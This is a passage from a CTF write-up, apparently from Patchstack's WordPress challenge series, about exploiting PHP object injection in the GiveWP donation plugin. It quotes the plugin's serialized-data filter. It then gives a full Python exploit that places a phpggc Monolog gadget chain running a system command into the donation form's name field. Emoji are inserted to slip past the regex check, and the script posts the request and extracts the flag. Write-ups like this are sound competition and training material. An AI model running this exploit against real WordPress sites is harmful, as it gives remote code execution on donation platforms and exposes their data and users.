```php
public static function isSerialized($data): bool
{
    $data = self::removeBackslashes($data);

    if (is_serialized($data) || self::containsSerializedDataRegex($data)) {
        return true;
    }

    return false;
}

public static function containsSerializedDataRegex($data): bool
{
    if ( ! is_string($data)) {
        return false;
    }

    $pattern = '/
    (a:\d+:\{.*\}) |         # Matches arrays (e.g: a:2:{i:0;s:5:"hello";i:1;i:42;})
    (O:\d+:"[^"]+":\{.*\}) | # Matches objects (e.g: O:8:"stdClass":1:{s:4:"name";s:5:"James";})
    (s:\d+:"[^"]*";) |       # Matches strings (e.g: s:5:"hello";)
    (i:\d+;) |               # Matches integers (e.g: i:42;)
    (b:[01];) |              # Matches booleans (e.g: b:1; or b:0;)
    (d:\d+(\.\d+)?;) |       # Matches floats (e.g: d:3.14;)
    (N;)                     # Matches NULL (e.g: N;)
    /x';

    return preg_match($pattern, $data) === 1;
}
```

Ok, so now how can we insert the payload?🤔

Luckily, in the fresh installation of GiveWP plugins, there was a default Donation page.


It can be accessed within `/?give_forms=givewp-donation-form`


By inserting all required data, we should able to get POST requests below.


Nest step is to create serialized gadget. I'll use [phpggc](https://github.com/ambionics/phpggc) to create the POP Gadget Chain payload.


In order to send the crafted exploit, i'll use python script below:

```python
import requests
from urllib.parse import unquote, quote
from re import search

url = "http://52.77.81.199:9140/?givewp-route=donate&givewp-route-signature=7be844822138dbd619d31db7e8b9cf02&givewp-route-signature-id=givewp-donate&givewp-route-signature-expiration=1740489610"

headers = {
    "Accept-Language": "en-US,en;q=0.9",
    "Accept": "application/json",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36",
}

popGadget = unquote("O%3A37%3A%22Monolog%5CHandler%5CFingersCrossedHandler%22%3A4%3A%7Bs%3A16%3A%22%00%2A%00passthruLevel%22%3Bi%3A0%3Bs%3A10%3A%22%00%2A%00handler%22%3Br%3A1%3Bs%3A9%3A%22%00%2A%00buffer%22%3Ba%3A1%3A%7Bi%3A0%3Ba%3A2%3A%7Bi%3A0%3Bs%3A7%3A%22cat%20%2Ff%2A%22%3Bs%3A5%3A%22level%22%3Bi%3A0%3B%7D%7Ds%3A13%3A%22%00%2A%00processors%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A3%3A%22pos%22%3Bi%3A1%3Bs%3A6%3A%22system%22%3B%7D%7D")

emoji = quote("😼")

popGadget = popGadget.replace(":", ":" + emoji)
popGadget = popGadget.replace("N;", "N" + emoji + ";")

# Multipart form-data payload
files = {
    "amount": (None, "10"),
    "currency": (None, "USD"),
    "donationType": (None, "single"),
    "formId": (None, "9"),
    "gatewayId": (None, "manual"),
    "firstName": (None, popGadget),
    "lastName": (None, "b"),
    "email": (None, "aa@gmail.com"),
    "comment": (None, ""),
    "donationBirthday": (None, ""),
    "originUrl": (None, "http://52.77.81.199:9140/?give_forms=givewp-donation-form"),
    "isEmbed": (None, "true"),
    "embedId": (None, "9"),
    "gatewayData[testGatewayIntent]": (None, "test-gateway-intent")
}

response = requests.post(url, headers=headers, files=files)

match = search(r"CTF\{.*?\}", response.text)

if match:
    print("Found:", match.group())
else:
    print("No flag found.")

```

Flag Obtained!


**Flag: CTF{g1v3_plug1n_keeps_g1v1ng_php_0bj3ct_1njection}**

---

## Outro

Patchstack CTF is getting harder in every iteration, but never getting out of unique ideas. I really love the concept of WordPress CTF challenges where i can improve my skills in wordpress hacking and also web hacking in general. I hope Patchstack will always keep with the good challenges. Kudos to all challenge authors and participant. See you on the next CTF 🔥🔥